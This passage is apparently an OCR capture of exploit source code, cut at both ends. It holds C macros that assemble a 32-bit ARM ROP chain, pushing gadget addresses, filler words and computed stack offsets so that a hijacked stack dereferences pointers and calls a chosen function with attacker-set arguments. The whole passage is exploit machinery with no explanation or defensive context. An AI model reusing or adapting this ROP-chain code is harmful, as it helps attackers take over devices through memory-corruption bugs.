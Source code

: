 push = (uint32_t)e;\
push = (uint32_t)f;\
push = (uint32_t)g;\
push = (uint32_t)h;\
push = (uint32_t)i;\
RopNopSlide(push)
    
#define RopCallDerefFunctionPointer10Deref2(push, fptr_deref, repl_arg_0, read_ptr_0, repl_arg_1, read_ptr_1, a, b, c, d, e, f, g, h, i, l) \
RopFixupLR(push);\
push = (uint32_t)pop_r0r1r3r4r7pc;\
push = (uint32_t)fptr_deref - 8;\
push = (uint32_t)0x11111111;\
push = (uint32_t)0x33333333;\
push = (uint32_t)0x44444444;\
push = (uint32_t)m_m_scratch; \
push = (uint32_t)ldr_r0_r0_8_pop_r7pc;\
push = (uint32_t)m_m_scratch;\
push = (uint32_t)pop_r4r7pc;\
tmp = (4*(28 + 12)) + (((char*)stack) - ((char*)stackbase)) + segstackbase;\
push = (uint32_t)tmp  - 8; \
push = (uint32_t)m_m_scratch;\
push = (uint32_t)str_r0_r4_8_pop_r4r7pc;\
push = (uint32_t)0x44444444;\
push = (uint32_t)m_m_scratch;\
push = (uint32_t)pop_r0r1r3r4r7pc;\
push = (uint32_t)read_ptr_1 - 8;\
push = (uint32_t)0x11111111;\
push = (uint32_t)0x33333333;\
push = (uint32_t)0x44444444;\
push = (uint32_t)m_m_scratch; \
push = (uint32_t)ldr_r0_r0_8_pop_r7pc;\
push = (uint32_t)m_m_scratch;\
push = (uint32_t)pop_r4r7pc;\
tmp = ((repl_arg_1 < 4) ? (4*(14 + repl_arg_1 + 6)) : (4*(14 + repl_arg_1 + 9))) + (((char*)stack) - ((char*)stackbase)) + segstackbase;\
push = (uint32_t)tmp  - 8; \
push = (uint32_t)m_m_scratch;\
push = (uint32_t)str_r0_r4_8_pop_r4r7pc;\
push = (uint32_t)0x44444444;\
push = (uint32_t)m_m_scratch;\
push = (uint32_t)pop_r0r1r3r4r7pc;\
push = (uint32_t)read_ptr_0 - 8;\
push = (uint32_t)0x11111111;\
push = (uint32_t)0x33333333;\
push = (uint32_t)0x44444444;\
push = (uint32_t)m_m_scratch; \
push = (uint32_t)ldr_r0_r0_8_pop_r7pc;\
push = (uint32_t)m_m_scratch;\
push = (uint32_t)pop_r4r7pc;\
tmp = ((repl_arg_0 < 4) ? (4*(repl_arg_0 + 6)) : (4*(repl_arg_0 + 9))) + (((char*)stack) - ((char*)stackbase)) + segstackbase;\
push = (uint32_t)tmp  - 8; \
push = (uint32_t)m_m_scratch;\
push = (uint32_t)str_r0_r4_8_pop_r4r7pc;\
push = (uint32_t)0x44444444;\
push = (uint32_t)m_m_scratch;\
push = (uint32_t)pop_r0r1r2r3r5r7pc; \
push = (uint32_t)a; \
push = (uint32_t)b; \
push = (uint32_t)c; \
push = (uint32_t)d; \
push = (uint32_t)0x45454545; \
push = (uint32_t)(m_m_scratch); \